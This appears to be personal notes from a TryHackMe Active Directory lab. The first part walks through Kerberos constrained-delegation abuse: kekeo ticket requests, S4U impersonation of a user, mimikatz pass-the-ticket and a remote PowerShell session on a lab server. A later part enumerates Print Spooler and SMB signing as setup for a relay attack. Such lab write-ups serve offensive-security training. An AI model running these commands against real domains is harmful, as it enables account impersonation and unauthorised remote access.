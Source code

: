 # kekeo: Generate TGT for services
`tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted`
*user - The user who has the constrained delegation permissions.
domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
password - The password associated with the svcIIS account.*


# kekeo: Generate TGS (for both services)
`tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http`
`tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc`

# mimikatz  import the two TGS
`mimikatz # privilege::debug`
`kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi`

`kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi`

# Check if the PSsession exists
`New-PSSession -ComputerName thmserver1.za.tryhackme.loc`

# Get RCE on the server
`Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc`


## Authentication relays

Therefore, to exploit this, apart from machine account administrative privileges, we also need to meet the following four conditions :

    A valid set of AD account credentials.
    Network connectivity to the target's SMB service.
    The target host must be running the Print Spooler service.
    The hosts must not have SMB signing enforced.

# Enumerate for Print Spoller service
`GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc
` *or*
`Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc`

# Ensure SMB signing is not enforced
`nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc`
